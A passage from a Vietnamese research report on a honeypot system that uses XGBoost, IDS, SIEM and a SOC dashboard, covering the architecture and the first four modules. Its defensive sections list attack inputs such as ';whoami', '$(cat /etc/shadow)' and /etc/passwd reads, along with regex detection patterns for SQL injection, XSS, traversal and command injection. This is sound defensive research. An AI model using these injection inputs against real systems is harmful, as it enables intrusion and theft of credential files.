




# BÁO CÁO TỔNG HỢP CÔNG TRÌNH NGHIÊN CỨU

## Hệ Thống Honeypot Thông Minh Tích Hợp Trí Tuệ Nhân Tạo, IDS và SOC Dashboard

---

> **Tác giả:** Nghiên cứu sinh  
> **Ngày báo cáo:** 18/08/2026  
> **Phạm vi công trình:** Thiết kế, lập trình và triển khai toàn bộ hệ thống an ninh mạng thế hệ mới  
> **Phân tích đồ thị mã nguồn:** Graphify — 715 Nodes, 1.290 Edges, 58 Communities  
> **Kho mã nguồn:** `D:\A\A_5chai\honey_pot\`

---

## MỤC LỤC

1. [Tóm tắt Tổng quan (Executive Summary)](#1-tóm-tắt-tổng-quan)
2. [Bối cảnh và Vấn đề Nghiên cứu](#2-bối-cảnh-và-vấn-đề-nghiên-cứu)
3. [Kiến trúc Hệ thống Tổng thể](#3-kiến-trúc-hệ-thống-tổng-thể)
4. [Part 01 — Mô hình Trí Tuệ Nhân Tạo (AI/ML Engine)](#4-part-01--mô-hình-trí-tuệ-nhân-tạo)
5. [Part 02 — Bẫy Web Mồi Nhử (Web Honeypot)](#5-part-02--bẫy-web-mồi-nhử)
6. [Part 03 — Trung Tâm Tiếp Nhận Dữ Liệu (API & Logging)](#6-part-03--trung-tâm-tiếp-nhận-dữ-liệu)
7. [Part 04 — Bảng Điều Khiển SOC (Dashboard Analytics)](#7-part-04--bảng-điều-khiển-soc)
8. [Part 05 — Cảm Biến Mạng Thời Gian Thực (IDS & ML Detection)](#8-part-05--cảm-biến-mạng-thời-gian-thực)
9. [Part 06 — Hệ Thống SIEM & Tương Quan Sự Kiện](#9-part-06--hệ-thống-siem--tương-quan-sự-kiện)
10. [Part 07 — Gia Cố An Toàn & Phân Vùng Mạng](#10-part-07--gia-cố-an-toàn--phân-vùng-mạng)
11. [Part 08 — Triển Khai Tự Động & Quản Trị Danh Tính](#11-part-08--triển-khai-tự-động--quản-trị-danh-tính)
12. [Part 09 — Kiểm Thử Tự Động & Đánh Giá](#12-part-09--kiểm-thử-tự-động--đánh-giá)
13. [Ma Trận Kỹ Thuật Tổng Hợp](#13-ma-trận-kỹ-thuật-tổng-hợp)
14. [Các Điểm Nút Trung Tâm (God Nodes — Graphify)](#14-các-điểm-nút-trung-tâm-god-nodes)
15. [Đánh Giá & Kết Luận](#15-đánh-giá--kết-luận)

---

## 1. TÓM TẮT TỔNG QUAN

Công trình này là kết quả của quá trình nghiên cứu, thiết kế và tự tay lập trình một **Hệ thống Honeypot Thông Minh thế hệ mới** — kết hợp giữa kỹ thuật bẫy mồi nhử an ninh mạng truyền thống với các công nghệ tiên tiến nhất hiện đại: **Trí Tuệ Nhân Tạo (AI/ML)**, **Hệ thống Phát hiện Xâm nhập (IDS)**, **Hệ thống Quản lý và Tương quan Sự kiện An ninh (SIEM)** và **Bảng Điều Khiển Trực Quan SOC**.

Hệ thống được chia thành **9 module độc lập (Part 01 → Part 09)**, mỗi module đảm nhận một mắt xích chuyên biệt trong chuỗi vận hành khép kín: từ việc **dụ dỗ tin tặc tấn công vào bẫy** → **ghi nhận và phân tích hành vi** → **phán đoán bằng AI trong mili-giây** → **hiển thị trực quan cho chuyên viên SOC** → **đảm bảo an toàn tuyệt đối cho hạ tầng thật**.

Công trình được phân tích bằng công cụ đồ thị mã nguồn **Graphify** với kết quả: 715 nút (nodes), 1.290 cạnh kết nối (edges) và 58 cộng đồng code (communities), cho thấy mức độ phức tạp và tích hợp chặt chẽ của toàn bộ hệ thống.

---

## 2. BỐI CẢNH VÀ VẤN ĐỀ NGHIÊN CỨU

### 2.1. Thực trạng An ninh Mạng hiện đại

Trong bối cảnh các cuộc tấn công mạng ngày càng tinh vi và có tổ chức, các giải pháp phòng thủ thụ động truyền thống (tường lửa, antivirus) ngày càng bộc lộ hạn chế. Đặc biệt với sự bùng nổ của thiết bị IoT (Internet of Things — Thiết bị thông minh kết nối Internet), các mạng Botnet (mạng ma thiết bị bị chiếm quyền) như **Mirai** đã gây thiệt hại hàng tỷ USD trên toàn cầu.

### 2.2. Khoảng trống nghiên cứu

Các hệ thống Honeypot hiện tại thường:
- Chỉ ghi nhận hành vi thô mà không phân tích thông minh.
- Thiếu khả năng phán đoán tấn công theo thời gian thực.
- Không có cơ chế cô lập (Anti-Pivot) đủ vững chắc để bảo vệ chính bẫy.
- Chưa chuẩn hóa dữ liệu theo khung an ninh quốc tế MITRE ATT&CK.

### 2.3. Mục tiêu công trình

Công trình này giải quyết trọn vẹn 4 mục tiêu:

| # | Mục tiêu | Giải pháp trong công trình |
|---|---|---|
| 1 | Dụ và ghi nhận hành vi tấn công mạng | Bẫy Web Flask & Bẫy SSH Cowrie (Part 02, 08) |
| 2 | Phân tích và phán đoán tấn công bằng AI | Mô hình XGBoost 7 lớp + Cảm biến thời gian thực (Part 01, 05) |
| 3 | Tổng hợp, tương quan và cảnh báo nâng cao | Hệ thống SIEM Elasticsearch + Kibana (Part 06) |
| 4 | Đảm bảo an toàn tuyệt đối cho hạ tầng thật | Security Hardening & Network Segmentation (Part 07, 08) |

---

## 3. KIẾN TRÚC HỆ THỐNG TỔNG THỂ

### 3.1. Sơ đồ Luồng Dữ Liệu (Data Flow)

```
[Kẻ tấn công / Tin tặc]
       │
       ├─► (Port 8080 - HTTP) ──► Edge WAF (ModSecurity CRS) ──► Flask Web Honeypot (Part 02)
       │                                                                │ (Log JSON)
       │                                                                ▼
       ├─► (Port 2222 - SSH)  ──► SSH Proxy (HAProxy) ───────► Cowrie SSH Honeypot
       │                                                                │ (Log JSON)
       │                                                                ▼
       └─► (NIC Lab - Gói tin) ──► Suricata IDS (Part 05) ──► IDS/ML Bridge (XGBoost)
                                                                        │
       ┌────────────────────────────────────────────────────────────────┘
       │ (Gửi event qua HTTP API)
       ▼
[FastAPI Backend - Part 03] ──► PostgreSQL (Lưu trữ) & Redis (Bộ đệm khử trùng lặp)
       │
       ├─► [React Dashboard - Part 04] (Xác thực qua Keycloak OIDC/PKCE)
       ├─► [Prometheus & Grafana] (Giám sát chỉ số hiệu năng)
       └─► [Filebeat ──► Elasticsearch & Kibana - Part 06] (SIEM)
```

### 3.2. Phân Vùng Kiến Trúc Bảo Mật 4 Tầng

Toàn bộ hệ thống được phân chia thành 4 vùng mạng biệt lập (**Network Segmentation — Phân vùng mạng**, kỹ thuật chia tách hạ tầng mạng để kiểm soát luồng giao tiếp):



### 3.3. Danh Mục Cổng Kết Nối (Port Matrix)

| Cổng | Giao thức | Dịch vụ | Mục đích | Ranh giới bảo mật |
|------|-----------|---------|----------|-------------------|
| **8080** | HTTP | Edge WAF → Flask Honeypot | Cổng mồi nhử mở cho mạng LAN thử nghiệm | Mở cho LocalSubnet |
| **2222** | SSH | HAProxy → Cowrie SSH | Cổng bẫy SSH ghi lại hành vi đăng nhập | Mở có kiểm soát |
| **8088** | HTTP | Control Edge Nginx | Cổng quản trị duy nhất: Dashboard & API | Chỉ `127.0.0.1` |
| **8180** | HTTP | Keycloak IAM | Giao diện quản lý người dùng và quyền | Chỉ `127.0.0.1` |
| **3000** | HTTP | Grafana Monitoring | Giám sát hiệu năng CPU/RAM/Request | Chỉ `127.0.0.1` |
| **5601** | HTTP | Kibana UI | Truy vấn và tương quan log SIEM | Chỉ `127.0.0.1` |

---

## 4. PART 01 — MÔ HÌNH TRÍ TUỆ NHÂN TẠO

> **Vị trí mã nguồn:** `D:\A\A_5chai\honey_pot\part_01_AI_ML`  
> **Vai trò:** Huấn luyện và xuất mô hình AI phân loại tấn công mạng

### 4.1. Tổng quan Module

Module này là **"Phòng thí nghiệm AI"** — nơi toàn bộ quá trình xây dựng trí tuệ nhân tạo được thực hiện, từ làm sạch dữ liệu đến huấn luyện mô hình và xuất artifact tối ưu phục vụ chiến đấu thực địa.

```
part_01_AI_ML/
├── src/
│   ├── data/
│   │   ├── labels.py     # Chuẩn hóa 33 nhãn gốc → 7 lớp
│   │   ├── cleaner.py    # Làm sạch dữ liệu, xử lý Infinity, NaN
│   │   ├── loader.py     # Đọc dữ liệu dạng Chunk — chống OOM
│   │   └── sampler.py    # Reservoir Sampling cân bằng lớp
│   ├── models/
│   │   ├── train.py      # Huấn luyện XGBoost 300 cây
│   │   └── evaluate.py   # Đánh giá Precision, Recall, F1-score
│   └── reporting.py      # Xuất báo cáo đánh giá & biểu đồ
└── artifacts/
    ├── manifest.json     # Danh sách 47 đặc trưng & 7 lớp phân loại
    └── xgboost_original.ubj # Mô hình nhị phân siêu gọn (UBJ format)
```

### 4.2. Bộ Dữ Liệu Huấn Luyện

Bộ dữ liệu nghiên cứu sử dụng là **CICIoT2023** — bộ dữ liệu tấn công mạng IoT chuẩn quốc tế do Đại học New Brunswick (Canada) phát hành, bao gồm hàng chục Gigabyte dữ liệu với **33 loại nhãn tấn công** khác nhau.

Thách thức kỹ thuật: Dữ liệu quá lớn không thể nạp toàn bộ vào RAM. Tôi đã thiết kế pipeline xử lý theo **Big Data Stream Processing (Xử lý luồng dữ liệu lớn)** — đọc từng khối (Chunk), xử lý và giải phóng bộ nhớ luân phiên.

### 4.3. Thuật toán Chuẩn Hóa Nhãn (`labels.py`)

Ánh xạ 33 nhãn tấn công gốc thành **7 lớp an ninh mạng chuẩn**, đồng thời loại bỏ các nhãn tấn công Web (vì đã được xử lý riêng bởi Part 02):

| Nhóm đầu ra | Các nhãn gốc được gộp lại |
|---|---|
| `Benign` | BenignTraffic |
| `DDoS` | DDoS-RSTFINFlood, DDoS-SYN_Flood, DDoS-ICMP_Flood, v.v. |
| `DoS` | DoS-UDP_Flood, DoS-HTTP_Flood, v.v. |
| `Recon` | Recon-PortScan, Recon-OSScan, Recon-PingSweep |
| `BruteForce` | DictionaryBruteForce, SSH-BruteForce |
| `Spoofing` | DNS_Spoofing, ARP_Spoofing |
| `Mirai` | Mirai-greeth_flood, Mirai-udpplain, v.v. |
| `None` (loại bỏ) | SqlInjection, XSS (Part 02 xử lý) |

### 4.4. Thuật toán Reservoir Sampling (`sampler.py`)

**Vấn đề:** Dữ liệu DDoS có hàng chục triệu dòng, trong khi BruteForce chỉ có vài chục nghìn — gây **Imbalanced Dataset (Mất cân bằng dữ liệu)** làm AI học thiên lệch.

**Giải pháp — ClassReservoirSampler:** Mỗi dòng dữ liệu đi qua được gán một số ngẫu nhiên ưu tiên $r \in [0, 1)$. Hệ thống chỉ giữ lại đúng `max_samples_per_class = 100.000` dòng có điểm $r$ nhỏ nhất cho mỗi lớp. Xác suất mỗi dòng được chọn hoàn toàn đồng đều trên toàn bộ tập dữ liệu khổng lồ mà **không bao giờ bị tràn RAM**.

```python
class ClassReservoirSampler:
    max_samples_per_class: int = 100_000

    def update(self, features, labels):
        joined["__priority__"] = self._rng.random(len(joined))  # Số ngẫu nhiên [0,1)
        for class_name, group in joined.groupby("__target__"):
            candidates = candidates.nsmallest(self.max_samples_per_class, "__priority__")
```

### 4.5. Mô Hình XGBoost — Trái Tim AI

**XGBoost (eXtreme Gradient Boosting — Cây quyết định tăng cường cực mạnh):** Thuật toán Học máy kết hợp hàng trăm cây quyết định nhỏ theo cơ chế tăng cường độ dốc (Gradient Boosting). Cây thứ hai sửa lỗi cây thứ nhất, cây thứ ba sửa lỗi cây thứ hai — tích lũy thành mô hình cực kỳ chính xác.

**Cấu hình mô hình:**

```python
model = XGBClassifier(
    n_estimators=300,           # 300 cây quyết định nối tiếp nhau
    max_depth=10,               # Chiều sâu tối đa 10 tầng
    learning_rate=0.1,          # Tốc độ học Eta
    subsample=0.8,              # 80% dữ liệu mỗi cây — chống Overfitting
    colsample_bytree=0.8,       # 80% đặc trưng mỗi cây — chống Overfitting
    objective="multi:softprob", # Hàm mục tiêu đa lớp — trả về xác suất
    tree_method="hist",         # Histogram — tăng tốc 10-20x
    n_jobs=-1,                  # Sử dụng toàn bộ nhân CPU song song
)
```

### 4.6. 47 Đặc Trưng Mạng Đầu Vào

Mô hình bóc tách **47 chỉ số kỹ thuật** từ mỗi luồng gói tin mạng:

| Nhóm đặc trưng | Ví dụ chỉ số |
|---|---|
| Thời lượng & Tốc độ | `flow_duration`, `Rate`, `IAT` (khoảng cách thời gian gói tin) |
| Cờ giao thức TCP | `syn_flag`, `ack_flag`, `fin_flag`, `rst_flag` |
| Thống kê kích thước | `Tot_size`, `Max`, `Min`, `AVG`, `Variance` |
| Giao thức ứng dụng | `HTTP`, `HTTPS`, `DNS`, `SSH`, `TCP`, `UDP`, `ICMP` |
| Hướng luồng | `fwd_pkts`, `bwd_pkts` (gói tin gửi đi / phản hồi) |

### 4.7. Đánh Giá Hiệu Năng AI

Mô hình được đánh giá khoa học trên tập Test độc lập qua các chỉ số:

$$\text{Precision} = \frac{TP}{TP + FP} \quad \text{(Độ chuẩn xác: Cảnh báo đúng / Tổng cảnh báo)}$$

$$\text{Recall} = \frac{TP}{TP + FN} \quad \text{(Độ thu hồi: Tấn công bắt được / Tổng tấn công thực)}$$

$$F1 = 2 \times \frac{Precision \times Recall}{Precision + Recall} \quad \text{(Điểm cân bằng điều hòa)}$$

$$\text{Benign FPR} = \frac{FP}{\text{Benign Total}} \quad \text{(Tỷ lệ báo động giả trên lưu lượng bình thường)}$$

**Artifact xuất ra:** File nhị phân `xgboost_original.ubj` (Universal Binary JSON — định dạng nhị phân tối ưu) cực kỳ nhẹ, nạp vào RAM trong mili-giây và phục vụ trực tiếp cho Part 05.

---

## 5. PART 02 — BẪY WEB MỒI NHỬ

> **Vị trí mã nguồn:** `D:\A\A_5chai\honey_pot\part_02_WEB_HONEYPOT`  
> **Vai trò:** Ứng dụng web giả lập các điểm yếu để dụ tấn công và ghi lại hành vi

### 5.1. Tổng quan Module

**Part 02 đóng vai trò một "Cổng Dịch vụ công"** giả mạo đầy những lỗ hổng cố ý để tin tặc tự tin tấn công vào. Toàn bộ hành vi tấn công được ghi lại âm thầm, không có gì là thật cả.

Công nghệ: Python/Flask + Bootstrap, SQLite cục bộ, thư mục cách ly `quarantine/`.

### 5.2. Các Bề Mặt Tấn Công Giả Lập

10 bề mặt tương tác giả lập lỗi bảo mật:

| Loại tấn công | Mô tả kỹ thuật |
|---|---|
| **SQL Injection (SQLi)** | Tiêm mã SQL vào form đăng nhập, làm giả database |
| **Cross-Site Scripting (XSS)** | Chèn thẻ JavaScript độc hại vào trang |
| **Path Traversal** | Đọc trộm file hệ thống (`/etc/passwd`, `win.ini`) |
| **Command Injection** | Tiêm lệnh shell (`;whoami`, `$(cat /etc/shadow)`) |
| **Unrestricted File Upload** | Tải lên web shell PHP, mã độc |
| **XXE Injection** | Chèn thực thể XML ngoại lai để đọc file nội bộ |
| **Brute Force** | Dò mật khẩu liên tục bằng tool tự động |
| **Reflected XSS** | XSS phản chiếu qua tham số URL |
| **Stored XSS** | XSS lưu trữ trong cơ sở dữ liệu |
| **CSRF** | Giả mạo yêu cầu xuyên tên miền |

### 5.3. Thuật Toán Nhận Diện Chữ Ký Tấn Công (Regex DFA/NFA)

Sử dụng lý thuyết **Máy trạng thái hữu hạn (Deterministic/Non-Deterministic Finite Automata)** để phân tích payload. Độ phức tạp thời gian: $O(N)$ — siêu nhanh trong vài micro-giây.

**6 bộ mẫu chữ ký trong `detectors.py`:**

```python
PATTERNS = {
    "sqli": (
        r"(?:'|\")\\s*(?:or|and)\\s+['\"]?\\w+...",  # OR '1'='1', UNION SELECT
        r"\\bunion\\s+(?:all\\s+)?select\\b",
        r"\\bsleep\\s*\\(",                            # Time-based SQLi
    ),
    "xss": (
        r"<\\s*script\\b",           # <script> tags
        r"\\bon\\w+\\s*=",           # onload=, onerror=
        r"javascript\\s*:",          # javascript: pseudo-protocol
        r"<\\s*(?:svg|iframe|...)", # Embedded tags
    ),
    "traversal": (
        r"(?:\\.\\.[/\\\\]){1,}",   # ../../../
        r"/etc/(?:passwd|shadow)",   # Linux system files
        r"%2e%2e(?:%2f|/)",          # URL-encoded bypass
    ),
    "command_injection": (
        r"(?:;|&&|\\|\\|)\\s*(?:id|whoami|...",  # Shell operators
        r"`[^`]+`",                                # Backtick execution
        r"\\$\\([^)]*\\)",                         # $() substitution
    ),
}
```

### 5.4. Thuật Toán Cửa Sổ Thời Gian Trượt (Sliding Time Window)

Phát hiện **Brute Force** (tấn công thử mật khẩu liên tục): Đếm số lần thử trong cửa sổ 60 giây bằng chỉ mục B-Tree kép `idx_login_attempts_source_time`, độ phức tạp $O(\log M)$ thay vì quét toàn bảng.

$$\text{Khung thời gian} = [t_{hiện tại} - 60\text{s},\; t_{hiện tại}]$$

### 5.5. Các Cơ Chế An Toàn Nội Tại

**Hệ Thống Tệp Ảo (Virtual File Mapping):** Khi tin tặc thực hiện Path Traversal để đọc `/etc/passwd`, bẫy trả về nội dung Linux giả từ bộ từ điển trong RAM (`O(1)`) — tin tặc tưởng mình hack thành công nhưng không đọc được gì thật!

**CSP Sandbox (Content Security Policy — Chính sách Bảo mật Nội dung):** Khi tin tặc tiêm mã XSS, hệ thống bọc nó vào iframe cô lập với header `default-src 'none'`, triệt tiêu hoàn toàn khả năng đánh cắp cookie.

**SHA-256 Password Fingerprinting:** Không lưu mật khẩu thô — chỉ lưu mã băm SHA-256. Bảo vệ quyền riêng tư và nhận dạng mẫu tấn công.

**Constant-Time Comparison (So sánh Thời gian Hằng Số):** Dùng `secrets.compare_digest()` — so sánh bitwise XOR duyệt 100% độ dài chuỗi, triệt tiêu **Timing Attack (tấn công đo độ trễ thời gian)**.

**Bảng Tổng Kết Thuật Toán Part 02:**

| Thuật toán | Vị trí | Độ phức tạp | Chức năng |
|---|---|---|---|
| Regex DFA/NFA Matching | `detectors.py` | $O(N)$ | Nhận diện 6 loại tấn công web |
| Sliding Time Window | `db.py` | $O(\log M)$ | Phát hiện Brute Force 60 giây |
| Cryptographic SHA-256 | `detectors.py` | $O(B)$ | Ẩn danh mật khẩu & giám định mã độc |
| Constant-Time Compare | `routes.py` | $O(L)$ | Triệt tiêu Timing Attack |
| Virtual Memory Deception | `routes.py` | $O(1)$ | Đánh lừa Path Traversal bằng dữ liệu giả |

---

## 6. PART 03 — TRUNG TÂM TIẾP NHẬN DỮ LIỆU

> **Vị trí mã nguồn:** `D:\A\A_5chai\honey_pot\part_03_API_LOGGING`  
> **Vai trò:** Trái tim Backend tiếp nhận, chuẩn hóa, lưu trữ và cung cấp API cho Dashboard

### 6.1. Tổng Quan Module

**Part 03 là "Bộ Tổng Chỉ Huy Tiếp Nhận Dữ Liệu"**: tiếp nhận đồng thời hàng ngàn sự kiện từ nhiều sensor khác nhau (Part 02, Cowrie SSH, Part 05), khử trùng lặp, chuẩn hóa theo MITRE ATT&CK, lưu trữ vào PostgreSQL và tăng tốc truy vấn bằng Redis.

**Stack công nghệ:** FastAPI (Python 3.11+) + PostgreSQL 17 + Redis 7 + Keycloak IAM

```
part_03_API_LOGGING/app/
├── main.py       # Application Factory, CORS, Healthcheck
├── models.py     # ORM PostgreSQL — Chỉ mục B-Tree
├── events.py     # Batch Ingestion API, phân trang, xuất CSV
├── security.py   # Xác thực RS256 JWKS + RBAC
├── database.py   # SQLAlchemy Engine, Session Pool
├── cache.py      # Redis Cache-Aside, xóa cache hướng sự kiện
├── services.py   # SHA-256 Dedup, Wildcard Sanitization
├── schemas.py    # Pydantic V2 + chuẩn hóa MITRE ATT&CK
└── metrics.py    # Prometheus Metrics (Latency, RPS)
```

### 6.2. Thuật Toán Khử Trùng Lặp SHA-256 (Canonical Event Deduplication)

**Vấn đề:** Khi mạng gián đoạn, các sensor gửi lại gói tin (Retry). Nếu không khử trùng lặp, một vụ tấn công có thể bị đếm 5-10 lần, làm sai lệch báo cáo.

**Giải pháp:** Chuyển đổi sự kiện thành Canonical JSON (JSON chuẩn tắc, sắp xếp khóa `sort_keys=True`), tính SHA-256 làm **"dấu vân tay sự kiện"** độc nhất:

```python
def event_fingerprint(event: EventIn) -> str:
    canonical = json.dumps(
        event.model_dump(mode="json"),
        ensure_ascii=False,
        sort_keys=True,        # Bắt buộc sắp xếp khóa
        separators=(",", ":"), # Xóa khoảng trắng thừa
    )
    return hashlib.sha256(canonical.encode("utf-8")).hexdigest()
```

### 6.3. Thuật Toán Xác Thực Ký Số Bất Đối Xứng (RS256 JWKS)

Xác thực chuyên viên SOC truy cập Dashboard qua **JWT (JSON Web Token — Mã thông báo định danh JSON)** được ký bằng **RSA-SHA256 (Thuật toán ký số bất đối xứng)**:



**Phân quyền RBAC (Role-Based Access Control)** dùng phép giao thoa tập hợp: `user_roles.intersection(allowed_roles)` — nếu có ít nhất 1 vai trò hợp lệ thì cho phép.

### 6.4. Thuật Toán Cache-Aside & Xóa Cache Hướng Sự Kiện

Dashboard liên tục gọi API thống kê. Nếu mỗi lần đều quét hàng triệu dòng PostgreSQL → Database quá tải. Giải pháp:

1. **Cache Read:** Kiểm tra Redis trước. `Cache Hit` → trả về ngay trong 0.5ms. `Cache Miss` → truy vấn PostgreSQL rồi ghi vào Redis.
2. **Event-Driven Invalidation:** Ngay khi có sự kiện tấn công mới, hệ thống tự động xóa cache `summary:*` để Dashboard luôn cập nhật số liệu mới.

**Bảng Tổng Kết Thuật Toán Part 03:**

| Thuật toán | File | Chức năng |
|---|---|---|
| Canonical JSON + SHA-256 Fingerprinting | `services.py` | Dấu vân tay độc nhất, khử trùng lặp |
| Asymmetric RS256 & JWKS Verification | `security.py` | Xác thực chữ ký số Keycloak Token |
| Set Intersection RBAC | `security.py` | Phân quyền dựa trên giao thoa tập hợp vai trò |
| Cache-Aside & Event-Driven Invalidation | `cache.py` | Giảm 99% tải Database, phản hồi < 1ms |
| Time-Bucket & Group-By Aggregation | `stats.py` | Phân phối sự kiện vào bucket thời gian |
| Wildcard Sanitization & Safe Paging | `services.py` | Chống SQL Wildcard DoS |

---

## 7. PART 04 — BẢNG ĐIỀU KHIỂN SOC

> **Vị trí mã nguồn:** `D:\A\A_5chai\honey_pot\part_04_DASHBOARD_ANALYTICS`  
> **Vai trò:** Giao diện SOC hiện đại cho chuyên viên phân tích an ninh mạng

### 7.1. Tổng Quan Module

**Part 04 là "Đài Quan Sát SOC"** — nơi chuyên viên an ninh mạng theo dõi mọi diễn biến tấn công theo thời gian thực, tra cứu chi tiết từng payload và xuất báo cáo sự cố.

**Stack công nghệ:** React 18 + Vite + Apache ECharts + TailwindCSS + Keycloak-JS

**Thiết kế giao diện:** Dark Mode Cyber-Security với bảng màu neon tương phản cao — chuẩn mực thẩm mỹ của các SOC chuyên nghiệp.

```
part_04_DASHBOARD_ANALYTICS/src/
├── main.jsx          # Điểm khởi động & kích hoạt SSO
├── auth.js           # PKCE S256 & tự động gia hạn Token
├── api.js            # REST API Client, Bearer Token, Blob CSV
├── labels.js         # Từ điển MITRE ATT&CK → tên tấn công
├── App.jsx           # State, Polling 3s, ECharts
├── styles.css        # Glassmorphism, Dark Mode, Layout Grid
└── components/
    ├── EChart.jsx     # Apache ECharts tự động co giãn
    ├── StatCard.jsx   # Thẻ số liệu thống kê
    ├── EventTable.jsx # Bảng sự kiện phân trang
    └── EventDrawer.jsx # Xem toàn văn Payload & HTTP Header
```

### 7.2. Thuật Toán PKCE S256 (Bảo Mật Đăng Nhập SPA)

**Vấn đề:** Ứng dụng SPA (Single Page Application — Ứng dụng trang đơn chạy trên trình duyệt) không thể lưu Client Secret an toàn. Nếu tin tặc chặn được mã xác thực → có thể mạo danh người dùng.

**PKCE S256 (Proof Key for Code Exchange — Khóa bằng chứng trao đổi mã):**

1. Trình duyệt sinh chuỗi ngẫu nhiên bí mật $V$ (Code Verifier)
2. Tính mã băm: $C = \text{Base64URL}(\text{SHA-256}(V))$ (Code Challenge)
3. Gửi $C$ sang Keycloak. Khi nhận Code, gửi kèm $V$ để Keycloak xác thực
4. Kẻ xấu bắt được Code cũng vô dụng vì không có $V$!

### 7.3. Thuật Toán Thăm Dò Thông Minh (Visibility State Polling)

- Cứ **3 giây** gọi API làm mới số liệu (Short-Polling)
- **Tối ưu hóa:** Khi chuyên viên chuyển sang tab khác, Dashboard tự **tạm dừng gọi mạng** → tiết kiệm băng thông. Khi quay lại, làm mới ngay lập tức.

### 7.4. Thuật Toán Hoạt Hình ECharts (CubicOut Easing)

Khi có dữ liệu tấn công mới, biểu đồ không bị nháy trắng mà chuyển động mượt mà theo hàm số mũ:

$$f(t) = 1 - (1-t)^3 \quad (t \in [0,1])$$

Biểu đồ trượt sang tọa độ mới trong 900ms với đường cong CubicOut đẹp mắt.

### 7.5. Thuật Toán Ánh Xạ MITRE ATT&CK

Tự động chuyển đổi mã kỹ thuật thô từ database sang tên chuẩn quốc tế:

```javascript
const VULNERABILITY_LABELS = {
  sql_injection:          "SQL Injection (T1190)",
  reflected_xss:          "Reflected XSS (T1059.007)",
  path_traversal:         "Path Traversal (T1083)",
  brute_force:            "Brute Force (T1110)",
  unrestricted_upload:    "File Upload độc hại (T1505.003)",
  ssh_command:            "Thực thi lệnh SSH (T1059.004)",
  DDoS:                   "DDoS Flood (T1498)",
  Mirai:                  "Botnet Mirai IoT (T1584.005)",
};
```

---

## 8. PART 05 — CẢM BIẾN MẠNG THỜI GIAN THỰC

> **Vị trí mã nguồn:** `D:\A\A_5chai\honey_pot\part_05_IDS_ML_DETECTION`  
